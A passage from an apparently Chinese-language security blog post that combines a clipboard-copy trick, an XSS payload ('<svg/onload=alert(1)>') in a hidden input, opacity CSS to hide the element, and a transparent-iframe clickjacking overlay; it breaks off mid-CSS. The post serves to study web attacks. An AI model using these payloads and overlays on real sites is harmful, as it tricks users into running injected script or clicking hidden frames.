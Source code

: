 ```html
<input type="hidden" id="test" value='<svg/onload=alert(1)>'><br>
<input type="submit" value="test" onclick="cpy()">
```

经过测试发现并不能成功的使用复制功能，我的理解是因为在JavaScript代码中有这样一段内容：

```javascript
...
content.select();//全选内容
...
```

既然是全选内容那么一定要有这样一个编辑框或者输入框的存在，所以使用Hidden从实际意义上是没有这样一个”**框**“的。

解决问题：

在这里我选择使用透明样式来从”**视觉上隐藏**“标签：

```html
<style type="text/css">
#test { /*css id选择器*/
    /*控制不透明度的属性，兼容各大浏览器*/
    filter: alpha(Opacity=0); /*提供给IE浏览器8之前的*/
    -moz-opacity: 0; /*提供给火狐浏览器的*/
    -webkit-opacity: 0; /*提供给webkit内核的*/
    -khtml-opacity: 0; /*提供给KHTML内核的*/
    -ms-filter: "progid:DXImageTransform.Microsoft.Alpha(Opacity=0)"; /*提供给IE8之后的*/
    opacity: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
}
</style>
```

那么界面就变成如下的样子了：

![test](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2018-08-28/test.gif)

注意：**这里没办法使用自动复制到剪贴板，必须需要一个按钮才行**

#### 点击劫持

点击劫持之前写过一篇文章，所以就不在做讲解了，参考我之前写的一篇文章：http://gh0st.cn/archives/2017-12-20/1

构建基本CSS样式：

```css
.testframe {
	height: 100%;
} 
iframe {
	height: 100%;
	width: 100%;
	border: 0;
	margin: 0;
	padding: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
    filter: alpha(Opacity=0); /*提供给IE浏览器8之前的*/
    -moz-opacity: 0; /*提供给火狐浏览器的*/
    -webkit-opacity: 0; /*提供给webkit内核的*/
    -khtml-opacity: 0; /*提供给KHTML内核的*/
    -ms-filter: "progid:DXImageTransform.Microsoft.Alpha(Opacity=0)"; /*提供给IE8之后的*/
    opacity: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
}
#submit {
    position: fixed;
    width: 614px;
    height: 30px;
    margin: 0 auto;
```